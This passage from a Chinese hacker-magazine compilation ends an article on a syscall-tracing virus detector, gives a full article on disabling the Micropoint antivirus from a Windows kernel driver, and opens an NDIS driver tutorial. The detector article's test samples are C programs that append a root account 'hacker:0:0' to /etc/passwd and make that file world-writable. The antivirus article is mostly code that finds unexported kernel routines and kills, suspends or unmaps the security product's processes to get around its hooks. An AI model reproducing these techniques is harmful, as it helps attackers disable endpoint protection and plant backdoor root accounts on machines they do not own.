        sleep(1);
        fp = fopen("/etc/passwd", "a");
        fputs("hacker:0:0:hacker:/home/wangcong:/bin/bash\n", fp);
        fclose(fp);
    }
}
```

将该程序编译运行后，可得到如下的系统调用函数：

```text
execve("./adduser", ["./adduser"], /* ... */) = 0
brk(0) = 0x8293000
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = ...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT
open("/etc/ld.so.cache", O_RDONLY) = 3
...
mmap2(0x8f7000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|..., 3, 0x137) = 0x8f7000
```

```text
mmap2(0x8fa000, 9636, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x8fa000
close(3) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fa0000
set_thread_area(...)
mprotect(0x8f7000, 8192, PROT_READ) = 0
...
open("/etc/passwd", O_WRONLY|O_CREAT|O_APPEND, 0666) = 3
...
lseek(3, 2821, SEEK_SET) = 0
write(3, "hacker:0:0:hacker:/home/wangcong", 44) = 44
close(3) = 0
munmap(0xb7fb6000, 4096) = 0
exit_group(0) = ?
```

从上面的系统调用信息可以看出这个程序的执行过程，先打开 `/etc/passwd` 文件，然后直接向最后写入“hacker:0:0:hacker:/home/wangcong:/bin/bash”，达到了添加 root 用户的目的。而正常用户使用 `adduser` 指令来添加用户的过程和上面的行为截然不同（读者可以自己跟踪研究一下），所以可以认定此程序为病毒。

我们再来看一个修改 `/etc/passwd` 文件访问权限的程序。我们知道 `/etc/passwd` 文件的访问权限应为“-rw-r--r--”，而这个程序企图将它修改为“-rw-rw-rw-”，这样，任何用户就都可以随意添加用户了。

```c
#include <sys/types.h>
#include <sys/stat.h>
main()
{
    sleep(1);
    chmod("/etc/passwd", 00666);
}
```

将这个程序编译运行后，可以得到如下的系统调用函数：

```text
execve("./chmod", ["./chmod"], [/* 50 vars */]) = 0
brk(0) = 0x819f000
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fab000
access("/etc/ld.so.preload", R_OK) = -1 ENOENT
open("/etc/ld.so.cache", O_RDONLY) = 3
...
chmod("/etc/passwd", 0666) = 0
exit_group(0) = ?
```

可以看出，此程序企图修改 `/etc/passwd` 文件访问权限，从而就可以认定它为病毒。

从上面的这两个例子可以看出，如果发现了可疑程序，我们可以跟踪该程序，获得它的系统调用信息，然后自己分析它，并在 `rule.conf` 中添加相应的规则。

#### 编译安装

本程序的编译环境要求为 Linux kernel 2.6.* 的各种分发版本，软件环境为 QT4 图形库（C++ 的一种跨平台的图形库），GCC 4.1.2 以上版本。进入源文件目录，输入 `make` 指令，即可编译生成可执行文件，之后运行 `make install` 安装程序即可。

当我们没有编译环境时，可以直接安装我事先编译好的执行文件。进入 `bin` 子目录，执行 `./INSTALL` 即可安装。

编译完成后，在 root 用户下，在终端下直接执行 `mytrace` 即可启动程序，如图1所示。在图形界面信息的面板上会显示进程名、进程 PID、进程当前的系统调用等信息。每个进程的系统调用信息也作为日志保存在 `log` 目录下，可以自己查看日志，获得更详细的信息。



现在我们在终端里运行前面添加用户的那个程序，可以看到，该进程已经被我们这个软件发现了，如图2所示，进程名为 `a.out`，企图添加一个用户。


#### 总结

这个软件目前只定义了几条简单的规则，和本文附带的几个测试病毒相对应。大家在今后的使用过程中，可以查看日志文件，如果发现了可疑进程，可以在 `rule.conf` 中自行添加适当的规则。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC

关键词：编程、微点、驱动

## 对抗微点目的总结与实现

文/图 ConTraiL [PCVista.cn]



作为一款新的主动防御软件，微点各方面的表现很不错，使用行为分析技术实时保护，主动防御未知病毒，实时查杀已知病毒。在测试的时候，我发现了一些简单对抗微点的思路，这里与大家共同分享一下。

微点在驱动层的主要实现思想就是通过 Patch，让加载的驱动无效化。它并不会拦截驱动加载，所以我们要在驱动层对抗微点还是很容易的。本着“和谐”对抗的原则，我并不恢复微点的 Hook（也不好恢复，微点有各种 notify 和 DPC 回调来检查自己的 Hook 是否被恢复），只是在驱动中绕过其 Hook。

APC 来结束。但由于微点已经使用 EAT Hook 了 `KeInsertQueueApc`，直接导致在微点驱动（`mp110003.sys`）之后加载的驱动获得的 `KeInsertQueueApc` 地址都是微点自己提供的 fake 函数地址，因此一些使用插入 APC 法结束进程的软件可能会功能异常（典型症状就是 IceBoy 的 PsNull 的强制结束进程菜单变灰了）。

要使用插入 APC 法结束微点进程，我们就必须自己获取 `KeInsertQueueApc` 的原始地址。`KeInsertQueueApc` 是导出函数，微点在 Ring3 并没有 Hook `LoadLibrary` 和 `GetProcAddress`，所以我们简单地使用 `LoadLibrary` 载入第1个系统模块，再使用 `GetProcAddress` 得到地址，减去刚才 `LoadLibrary` 返回的基址，就可以得到这个函数的相对偏移值。因为后面还需要使用类似的方法得到另一个未导出函数的地址，所以获取 `KeInsertQueueApc` 地址的代码就不提供了，大家自己思考一下就会明白。

#### 万剑归宗之 APC 法

pif 在《终止进程的内幕》一文中说过，系统利用 `ThreadListHead` 枚举进程的每一个线程，使用 `PspTerminateThreadByPointer` 来结束它们。这里要注意，并不是对每个线程系统都会忠实地执行你的命令。若枚举到的线程是系统线程，则不会继续执行，而是返回 `STATUS_INVALID_PARAMETER`。`PspTerminateThreadByPointer` 并不是直接“杀掉”指定线程，实质上线程是“自杀”的。系统简单地使用 `KeInitializeApc/KeInsertQueueApc` 插入了一个核心态的 APC 调用，若是用户线程，会再插入用户态的 APC 调用，最终线程在自己的执行环境中使用 `PspExitThread(...=>KeTerminateThread=>KiSwapThread)` 悲壮地自行了断。

最终的结束进程方法，自然是模拟系统操作，自己遍历进程的线程，给每个线程插入 APC 来结束。但由于微点已经使用 EAT Hook 了 `KeInsertQueueApc`……

使用插入 APC 法结束进程的关键在于 `KeInitializeApc` 的第4个参数 APC 例程。因为我们是相当于一个“山寨”版的 `PspTerminateThreadByPointer`，所以不区分用户线程跟系统线程，统一当作内核线程来处理。当然，相应的也要在线程标志上做一下手脚。

```c
VOID TerminateThreadRoutine(
    IN PKAPC Apc,
    IN OUT PKNORMAL_ROUTINE *NormalRoutine,
    IN OUT PVOID *NormalContext,
    IN OUT PVOID *SystemArgument1,
    IN OUT PVOID *SystemArgument2
)
{
    ULONG CrossThreadFlagsOffset = GetCrossThreadFlagsOffset();
    PULONG CrossThreadFlags;
    ExFreePool(Apc);
    if (CrossThreadFlagsOffset)
    {
        CrossThreadFlags = (ULONG *)((ULONG)(PsGetCurrentThread()) + CrossThreadFlagsOffset);
        *CrossThreadFlags = (*CrossThreadFlags) | PS_CROSS_THREAD_FLAGS_SYSTEM;
        PsTerminateSystemThread(STATUS_SUCCESS);
    }
    else
    {
        //DbgPrint("TerminateThreadRoutine Failed\n");
    }
    return;
}
```

`SystemThread` 中搜到 `PspTerminateThreadByPointer` 的地址，然后再从 `NtTerminateProcess` 中搜索，函数里第1处 `call PspTerminateThreadByPointer` 之后一个 `call` 和前一个 `call` 都是 `PsGetNextProcessThread`，如图1所示。



图1

```c
NTSTATUS GetPspTerminateThreadByPointerAddr()
{
    NTSTATUS st;
    ULONG offset = 0;
    UNICODE_STRING uStr;
    RtlInitUnicodeString(&uStr, L"PsTerminateSystemThread");
    UCHAR *p = NULL;
    p = (UCHAR *)MmGetSystemRoutineAddress(&uStr);
    if (p == NULL)
    {
        DbgPrint("Get PsTerminateSystemThread Failed!\n");
        return STATUS_UNSUCCESSFUL;
    }

    int i;
    for (i = 0; i < 0x2D; i++)
    {
        if (*p == 0xE8)
        {
            offset = *((ULONG *)(p + 1));
            offset = offset + (ULONG)p + 5;
            XP_PspTerminateThreadByPointer = (XP_PSPTERMINATETHREADBYPOINTER)offset;
            return STATUS_SUCCESS;
        }
        p++;
    }
    return STATUS_UNSUCCESSFUL;
}

NTSTATUS GetPsGetNextProcessThreadAddr(IN ULONG NtTerminateProcessAddr)
{
    NTSTATUS st = STATUS_SUCCESS;
    // ...
}
```

`GetCrossThreadFlagsOffset()` 函数是很经典的实现，从 `PsTerminateSystemThread` 中搜索特征码 `0x80F6` 得到线程的 `CrossThreadFlags` 偏移量。因为微软也没有 Hook `PsTerminateSystemThread`，所以用这种方法还是很安全的。

```c
ULONG GetCrossThreadFlagsOffset()
{
    UCHAR *cPtr;
    USHORT Offset;

    for (cPtr = (PUCHAR)PsTerminateSystemThread;
         cPtr < (PUCHAR)PsTerminateSystemThread + 0x100;
         cPtr++)
    {
        if (*(USHORT *)cPtr == 0x80F6)
        {
            Offset = *(USHORT *)((ULONG)cPtr + 2);
            return Offset;
        }
    }
    return 0;
}
```

遍历线程的话，可以自己从 `eprocess->ThreadListHead` 开始依次遍历链表，也可以使用系统提供的函数 `PsGetNextProcessThread`。`PsGetNextProcessThread` 没有导出，目前我所知道的可以有两种方法搜到……

```c
ULONG StoreAddr = NtTerminateProcessAddr;
UCHAR *pStart = (UCHAR *)NtTerminateProcessAddr;
ULONG offset = 0; // 计算call的目的地址
int i;
__try {
    for (i = 0; i < PAGE_SIZE; i++) {
        if (*pStart == 0xE8) {
            offset = *((ULONG *)(pStart + 1));
            offset = offset + (ULONG)pStart + 5;
            if (offset == (ULONG)XP_PspTerminateThreadByPointer) {
                break;
            }
        }
        pStart++;
    }

    pStart++;
    for (; *pStart != 0xC2; pStart++) {
        if (*pStart == 0xE8) {
            offset = *((ULONG *)(pStart + 1));
            offset = offset + (ULONG)pStart + 5;
            XP_PsGetNextProcessThread =
                (XP_PSGETNEXTPROCESSTHREAD)offset;
            break;
        }
    }
}
__except (EXCEPTION_EXECUTE_HANDLER) {
    st = GetExceptionCode();
}

return st;
```

但这种方法现在不能使用了，因为微点 Hook 了 `PspTerminateThreadByPointer`（push ret 的方式 Hook）。不过可以使用 NewbieCoder（OGiNr）的方法，在 `NtTerminateProcess` 中的 `ExAcquireRundownProtection` 和 `ExReleaseRundownProtection` 之间的区域寻找两个一样的 call（`PsGetNextProcessThread`）。

第2种方法就是从 `NtSuspendProcess` 中搜到 `PsSuspendProcess` 的地址，再从 `PsSuspendProcess` 中搜到 `PsGetNextProcessThread` 的地址。总结一下，APC 法就是使用 `PsLookupProcessByProcessId` 得到进程 `eprocess`，然后一个线程一个线程地插入 APC 结束掉。完整代码请参见本书光盘中附带的文件 `TerminateMP.c`，驱动加载之后可以直接瞬间结束掉微点的全部进程。

#### 藏花点穴手之 Suspend 法

一开始我是想直接使用 `NtSuspendProcess` 来对付微点的进程，但是反汇编之后才发现，`NtSuspendProcess` 里面调用的 `ObReferenceObjectByHandle` 被 Hook 了，如图2所示。



图2

`NtSuspendProcess` 实质性的工作是 `PsSuspendProcess` 来完成的，而反汇编 `PsSuspendProcess` 就可以看出来，这个函数只是依次遍历了传进来的 `eprocess` 的每个线程，给每个线程调用 `PsSuspendThread`。

我自己模拟这个过程的时候发现，使用 `PsSuspendThread` 来暂停微点的线程总会抛出访问异常（`STATUS_ACCESS_VIOLATION`），不得已我只能使用下一层的函数 `KeSuspendThread` 来实现。获得 `KeSuspendThread` 地址的代码如下，至于如何取得 `NtSuspendThread` 的地址就见仁见智了。

```c
NTSTATUS GetKeSuspendThreadAddr(IN ULONG NtSuspendThreadAddr)
{
    NTSTATUS st = STATUS_SUCCESS;
    int flag = 0;
    UCHAR *pStart = (UCHAR *)NtSuspendThreadAddr;
    ULONG offset = 0; // 计算call的目的地址
    ...
}
```

```c
int i;
__try
{
    for (i = 0; i < 0x1000; i++)
    {
        if (*pStart == 0xE8) //call
        {
            DbgPrint("Find Call in NtSuspendThread\n");
            flag += 1;
        }
        if (flag == 3)
        {
            DbgPrint("Find PsSuspendThread\n");
            offset = *((ULONG *)(pStart + 1));
            offset = offset + (ULONG)pStart + 5;
            DbgPrint("The PsSuspendThread is 0x%08X\n", offset);
            break;
        }
        pStart++;
    }

    pStart = (UCHAR *)offset;
    pStart += 0x10;
    while (*pStart != 0xC3)
    {
        if (*pStart == 0xE8) //call
        {
            DbgPrint("Find Call in PsSuspendThread\n");
            offset = *((ULONG *)(pStart + 1));
            offset = offset + (ULONG)pStart + 5;
            DbgPrint("The KeSuspendThread is 0x%08X\n", offset);
            break;
        }
        pStart++;
    }
}
__except (EXCEPTION_EXECUTE_HANDLER)
{
    st = GetExceptionCode();
}

return st;
```

结果如图3所示。用 `KeSuspendThread` 确实可以暂停掉微点的线程，但因微点 Hook 了很多地方，把它的线程全部暂停之后，系统会变得比较卡，虽然还可以操作，但确实很卡。完整代码请参见本书光盘中附带的文件 `SuspendMP.c`。



图3

#### 北冥神功之 UnMapView 法

使用 `NtUnmapViewOfSection` 卸载掉进程中的可执行模块或者 `ntdll.dll` 以及 `kernel32.dll` 等重要的 DLL 模块来结束进程，应该算是一种比较不错的结束进程的方法。

反汇编 `NtUnmapViewOfSection` 可以看出来，这个函数跟 `NtSuspendProcess` 类似，都是先调用 `ObReferenceObjectByHandle` 之后 `call` 真正的主角函数。很不幸的是，`NtUnmapViewOfSection` 里调用的 `MiUnmapViewOfSection` 也被微点 Hook 了，如图4所示。不过没关系，我们依然可以在 Ring3 下安全地获取到 `MiUnmapViewOfSection` 的原始地址。



图4

```c
PUCHAR pFunc = NULL;
HMODULE hMod = NULL;
ULONG offset = 0;
int flag = 0;
void main()
{
    char szKrnlName[30];
    int pBase = 0;
    int rva = GetOrigSSDTAddrRVA(0x10b, szKrnlName, &pBase);
    printf("rva is %d, szKrnlName is %s, Base is 0x%08X\n", rva, szKrnlName, pBase);

    strcat(szSysPath, szKrnlName);
    hMod = LoadLibraryEx("c:\\windows\\system32\\ntkrnlpa.exe", 0, DONT_RESOLVE_DLL_REFERENCES);
    pFunc = (PUCHAR)((ULONG)hMod + rva);
    printf("pFunc is 0x%08X\n", pFunc);

    for (int i = 0; i < 0x100; pFunc++)
    {
        if ((*pFunc == 0xC9) && (*(pFunc + 1) == 0xC2))
        {
            printf("Find the ret\n");
            break;
        }
    }

    for (i = 0; i < 0x100; pFunc--)
    {
        if (*pFunc == 0xE8) // 第一个call
        {
            ...
        }
    }
}
```

```c
{
    printf("Find the call\n");
    flag += 1;
}
if (flag == 2)
{
    offset = *((ULONG *)(pFunc + 1));
    offset = offset + (ULONG)pFunc + 5;
    break;
}
...
offset = offset - (ULONG)hMod; // 得到相对偏移量
printf("the MmUnmapViewOfSection addr is 0x%08X\n", offset + pBase);
char c;
scanf("%c", &c);
}
```

结果如图5所示。有了原始地址就好办了，直接调用就OK了。Wrk 中这个函数的原型如下：



图5

```c
NTSTATUS
MiUnmapViewOfSection(
    IN PEPROCESS Process,
    IN PVOID BaseAddress,
    IN ULONG Flags
)
/*++
Routine Description:
    This function unmaps a previously created view to a section.
Arguments:
    Process — Supplies a referenced pointer to a process object.
    BaseAddress — Supplies the base address of the view.
    Flags — Supplies a bitfield directive.
Return Value:
    NTSTATUS.
--*/
```

其中第 1 个参数为要 UnMap 模块所在进程的 eprocess，第 2 个为所要 UnMap 的模块基址，第 3 个参数在 NtUnmapViewOfSection 里面是直接传的 0，所以我们也直接赋值为 0 就可以了。

执行模块默认的加载地址是 0x400000，所以使用 MiUnmapViewOfSection 的方法如下：

```c
PVOID p = (PVOID)0x400000;
st = MiUnmapViewOfSection(eprocess, p, 0);
```

驱动加载后的结果如图6所示，微点的进程会依次出错退出，最后只剩下一个 mpsvc1.exe，不过现在这个光杆司令已经没有任何监控作用了。



图6

如果第 2 个参数传的是 0x77f50000，也就是 ntdll 的加载基址的话，只有 MPMon.exe 会报错退出，其他 3 个进程都安然无恙。完整代码请参见本书光盘中附带的文件 UnMapViewMP.c。

#### 结语

最后总结一下，在上面介绍的 3 种方法里，前两种殊途同归，都是用插入 APC 来实现的，不过在 KeSuspendThread 中使用的不是 KeInsertQueueApc，而是 KiInsertQueueApc，刚好绕过了微点的 Hook，如图7所示。


图7

第 3 种方法则比较暴力，而且因为有错误提示，容易让人察觉。为了防止代码被恶意利用，驱动里面的所有地址我都是硬编码实现的，搜特征码的函数也不一定配套，有些地方需要修改才能使用。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、NDIS、驱动

### NDIS 协议驱动

#### 发送原始以太帧

文/图 虎子哥哥



最近在学习网络驱动，大体上有了一些认识，于是通过本文总结一下我对 NDIS 协议驱动的理解，希望能对大家有所帮助。在以前的几篇文章中，我曾经提到原始以太帧的操作，那时用的是第三方开发包 WinPcap。在本文，我想讲述一下通过 NDIS 协议驱动发送原始以太帧的方法。

刚开始学习的时候，看到那少说也有上千行的代码，确实有些让人望而生畏。面对这么多代码，感到完全没有头绪。现在回想起来，其实协议驱动和普通驱动相比，只是多了一组回调函数而已。我们只需要弄清楚各个回调函数的意义，就可以理解协议驱动了。

